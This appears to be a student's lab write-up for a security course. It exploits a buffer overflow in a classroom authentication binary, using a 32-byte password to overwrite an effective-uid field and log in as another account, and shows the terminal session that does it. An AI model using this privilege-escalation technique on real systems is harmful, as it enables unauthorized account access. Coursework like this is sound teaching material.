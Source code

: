 Perform the exploit outlined in [[Exploit 2]] to get a password that we know

Then enter a password with length of 32 bytes to overflow the buffer to set `euid[0]` to gain access to a different account than the one we specified.

Piazza post confirming this counts as an additional exploit:
https://piazza.com/class/lm3dh436w1h4oo/post/462

```
alexander.stevenson@mocha:~/a2$ env -i ./pseudoyeeeeet RootBaderGinsburg /bin/sh AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDD
DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
FFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGG 2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824
😸: Found passwd entry for 'RootBaderGinsburg' (2028)
Upon successful authentication, I shall execve into:
/bin/sh AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEpassword for RootBaderGinsburg: 12345678901234567890123456789012hello
Sorry, try again.
password for RootBaderGinsburg: Authenticated as RootBaderGinsburg (uid: 512)
$ whoami
RootGingrich
```
